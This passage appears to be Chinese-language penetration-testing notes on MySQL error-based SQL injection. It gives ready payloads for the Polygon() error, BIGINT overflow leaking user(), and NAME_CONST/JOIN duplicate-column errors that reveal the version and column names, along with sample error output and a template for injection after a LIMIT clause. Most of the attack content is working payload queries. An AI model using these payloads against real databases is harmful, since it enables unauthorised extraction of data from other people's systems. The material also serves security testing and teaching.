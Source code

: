 ## Polygon
利用条件：
- 需要知道当前查询表的字段名

```sql
select * from user where ID=1 and Polygon(ID)

---
mysql> select * from user where ID=1 and Polygon(ID);
ERROR 1367 (22007): Illegal non geometric '`user`.`user`.`ID`' value found during parsing
---
```




**数据溢出**
参考：
	- https://www.thinkings.org/2015/08/10/bigint-overflow-error-sqli.html
版本：
	- `5.5<version<5.5.53`
姿势：
```sql
select (select(!x-~0)from(select(select user())x)a);
```
报错信息长度限制在my_error.c中的`define ERRMSGSIZI(512)`

**列名重复**
利用name_const构建表名报错版本，name_const要求参数是常量，所以没什么好利用的。
```sql
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
```
join函数利用此特性可以爆表名
```sql
mysql> select *  from(select * from test a join test b)c;
ERROR 1060 (42S21): Duplicate column name 'id'
mysql> select *  from(select * from test a join test b using(id))c;
ERROR 1060 (42S21): Duplicate column name 'name'
```

## Limit后的注入
**参考**
- https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html

**测试语句**
```SQL
SELECT field FROM table WHERE id > 0 ORDER BY id LIMIT injection_point
```

**select语法**
```SQL
SELECT
    [ALL | DISTINCT | DISTINCTROW ]
      [HIGH_PRIORITY]
      [STRAIGHT_JOIN]
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT]
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS]
    select_expr [, select_expr ...]
    [FROM table_references
      [PARTITION partition_list]
    [WHERE where_condition]
    [GROUP BY {col_name | expr | position}
      [ASC | DESC], ... [WITH ROLLUP]]
    [HAVING where_condition]
    [ORDER BY {col_name | expr | position}
      [ASC | DESC], ...]
    [LIMIT {[offset,] row_count | row_count OFFSET offset}]
    [PROCEDURE procedure_name(argument_list)]
```